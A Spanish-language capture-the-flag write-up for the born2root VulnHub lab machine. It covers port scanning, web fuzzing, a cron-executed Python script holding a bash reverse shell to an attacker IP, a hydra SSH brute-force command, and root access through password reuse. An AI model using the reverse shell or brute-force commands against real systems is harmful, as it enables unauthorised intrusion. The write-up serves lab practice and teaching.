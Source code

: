 ```yaml
---
layout: post
title: born2root VulnHub
tags: [pspy,hydra]
description: "born2root VulnHub"
---
```


## Puertos abiertos

```
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
111/tcp   open  rpcbind 2-4 (RPC #100000)
|   100000  2,3,4        111/tcp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100024  1          44532/tcp   status
|_  100024  1          60170/tcp6  status
44532/tcp open  status  1 (RPC #100024)
```


## Servicio web (80)

### Fuzzing

```
❯ ffuf -w /usr/share/wordlists/dirb/common.txt -u "http://192.168.179.49/FUZZ" -c -t 200
[...]                                                                                               
                        [Status: 200, Size: 5651, Words: 1392, Lines: 284]
.htpasswd               [Status: 403, Size: 298, Words: 22, Lines: 12]
.htaccess               [Status: 403, Size: 298, Words: 22, Lines: 12]
.hta                    [Status: 403, Size: 293, Words: 22, Lines: 12]
files                   [Status: 301, Size: 316, Words: 20, Lines: 10]
icons                   [Status: 301, Size: 316, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 5651, Words: 1392, Lines: 284]
manual                  [Status: 301, Size: 317, Words: 20, Lines: 10]
robots.txt              [Status: 200, Size: 57, Words: 4, Lines: 4]
server-status           [Status: 403, Size: 302, Words: 22, Lines: 12]
```

Path: `http://192.168.179.49/icons/`

![icon](/assets/imgs/born2root/icon.png)

### Usuario jimmy (tarea cron)

```
martin@debian:/tmp$ cat /tmp/sekurity.py
#!/usr/bin/python
import os
os.system("bash -c 'bash -i >& /dev/tcp/192.168.49.179/4444 0>&1'")
```

![jimmy](/assets/imgs/born2root/jimmy.png)


## Usuario hady (fuerza bruta ssh)

```
hydra -l hadi -P hadi.txt 192.168.179.49 ssh -f -V -t 20
```

![hydra](/assets/imgs/born2root/hydra.png)

## Escalada de privilegios

### Reutilización de contraseñas

```
hadi@debian:~$ su
Password:
root@debian:/home/hadi# id
uid=0(root) gid=0(root) groups=0(root)
```
